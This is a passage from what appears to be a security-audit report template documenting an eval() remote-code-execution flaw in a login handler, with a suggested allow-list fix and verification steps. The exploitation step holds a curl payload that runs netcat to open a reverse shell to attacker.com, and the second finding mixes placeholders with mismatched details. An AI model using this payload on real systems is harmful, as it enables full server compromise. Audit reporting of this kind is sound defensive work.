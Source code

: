         # Step 3: Escalate to reverse shell
        curl -X POST http://target.com/login \
          -d "script=__import__('subprocess').call(['nc', 'attacker.com', '4444', '-e', '/bin/bash'])"
        ```
      - **Business Impact:** Remote code execution with application privileges, full server compromise
      - **Immediate Fix:**
        ```python
        # Replace lines 47-52 in src/auth/login.py
        # OLD:
        user_code = request.POST['script']
        if user_code:
            result = eval(user_code)

        # NEW:
        allowed_scripts = ['status', 'health', 'version']
        script_name = request.POST.get('script', '').strip()
        if script_name in allowed_scripts:
            result = execute_safe_script(script_name)
        else:
            result = "Invalid script requested"
        ```
      - **Verification Steps:**
        1. Deploy fix to staging environment
        2. Test legitimate script execution still works
        3. Verify malicious payloads are blocked
        4. Confirm no eval() calls remain in codebase

      ## ⚠️ HIGH PRIORITY FINDINGS

      ### [VULN-002] [Vulnerability Type] in [File:Line]
      - **Original Severity:** CRITICAL → **Adjusted Severity:** HIGH
      - **Severity Adjustment Rationale:** Semi-trusted input (environment variable) reduces severity from CRITICAL to HIGH
      - **Input Source:** [Specific source with controllability details]
      - **Controllability Classification:** [from tracing]
      - **File Location:** `[exact file path:line numbers]`
      - **Vulnerable Code:** [Code snippet with line numbers]
      - **Relevant Controls:** [List any relevant controls with description on why it's relevant]
      - **Complete Data Flow Trace:**
        1. `HTTP POST /login` → `request.POST['script']` (line 47)
        2. `request.POST['script']` → `user_code` variable (line 47)
        3. `user_code` → `eval(user_code)` (line 49: vulnerable execution)
      - **Data Flow Visualization:**
        ```mermaid
        flowchart TD
            EnvVar["Environment Variable<br/>MLFLOW_DEPLOYMENTS_TARGET<br/>handlers.py:1466"]
            ReqParam["Request Parameter<br/>gateway_path<br/>handlers.py:1472"]
            VulnSink["Vulnerable Sink<br/>requests.request()<br/>handlers.py:1475"]
            